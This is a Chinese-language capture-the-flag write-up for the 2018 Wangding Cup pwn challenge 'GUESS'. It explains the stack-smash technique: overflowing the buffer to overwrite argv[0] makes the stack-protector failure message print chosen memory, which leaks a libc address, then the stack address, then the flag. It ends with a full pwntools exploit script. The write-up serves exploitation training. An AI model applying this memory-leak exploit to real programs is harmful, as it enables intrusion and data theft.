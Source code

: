 # 2018 网鼎杯 pwn--GUESS

![屏幕截图(97)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(97).png)

放进ida查看一下，发现题目的要求是输入一段flag，要求与flag.txt文件里的内容相同，次数限制在3次。

![屏幕截图(96)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(96).png)

checksec一下，明显的栈溢出漏洞，虽然开通了canary保护，但是flag已经读到栈里了。我们可以运用SSP(Stack Smashes Protect)

在程序加了canary保护之后，如果我们读取的buffer覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而stack smash技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现canary保护之后，如果发现canary被修改的话，程序就会执行__stack_chk_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下


```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

所以说如果我们利用栈溢出覆盖argv[0]为我们想要输出的字符串的地址，那么在__fortify_fail函数中就会输出我们想要的信息。



## 利用思路

利用栈溢出覆盖 argv[0] 为puts_got地址 --> leak libc --> leak stack --> leak flag

1. 泄漏libc的基址
2. 泄漏environ的地址（也就是栈的地址）
3. 泄漏flag

### 第一步 找到存储arg[0]的地址

![屏幕截图(99)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(99).png)

用gdb来查看，在_strcmp函数那下断点，运行，我们输入一个‘a’。

![屏幕截图(98)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(98).png)

可见 agrv[0]地址为0x7fffffffe388, 我们输入的地址为 0x7fffffffe260,距离是0x128,我们要覆盖的范围就是0x128

所以泄露的payload = ‘a' * 0x128 + 要泄露的地址

### 第二步 泄露出 puts 的真正地址，计算出 libc_base ，environ_addr 和 stack_base 

​	payload = 'a' * 0x128 + puts_got

得到 puts_addr 后，libc_addr = puts_addr - .symbols['puts']

​	environ_addr = libc_addr + .symbols['_environ']

利用libc_base和libc.symbol['environ']计算出environ在栈上的地址，然后在gdb中利用b *environ计算其栈地址和flag的栈地址之间的距离然后leak出flag

第二次泄漏_environ，也就是栈的地址，也是在argv[0]处覆盖为_environ
为什么泄漏_environ可以泄漏出栈的地址呢？
是因为：
在linux应用程序运行时，内存的最高端是环境/参数节（environment/arguments section）
用来存储系统环境变量的一份复制文件，进程在运行时可能需要。
例如，运行中的进程，可以通过环境变量来访问路径、shell 名称、主机名等信息。
该节是可写的，因此在格式串（format string）和缓冲区溢出（buffer overflow）攻击中都可以攻击该节。
*environ指针指向栈地址(环境变量位置)，有时它也成为攻击的对象，泄露栈地址，篡改栈空间地址，进而劫持控制流。

环境表是一个表示环境字符串的字符指针数组，由name=value这样类似的字符串组成,它储存在整个进程空间的的顶部，栈地址之上
其中value是一个以”\0″结束的C语言类型的字符串，代表指针该环境变量的值
一般我们见到的name都是大写，但这只是一个惯例

![屏幕截图(101)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(101).png)

可求出 stack_base与environ 地址差为 0x7fffffffe398 - 0x7fffffffe200 = 0x198

stack_base = environ_adr - 0x198

flag地址为 stack_base + 0x30

### 第三步 泄露出flag

payload = ’a' * 0x128 + p64(stack_base + 0x30)

exp：

```
from pwn import * 


p = process('./GUESS') 
elf = ELF('./GUESS')
libc = elf.libc

puts_got = elf.got['puts']
p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(puts_got) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
puts_addr = u64(p.recv(6).ljust(8,'\x00')) 


offset_puts = libc.symbols['puts'] 
libc_base = puts_addr - offset_puts 

offset__environ = libc.symbols['_environ']
_environ_addr = libc_base + offset__environ 

p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(_environ_addr) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
stack_base = u64(p.recv(6).ljust(8,'\x00')) - 0x198 

flag_addr = stack_base + 0x30 
p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(flag_addr) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
flag = p.recvuntil('}') 
print flag 
p.interactive()



```

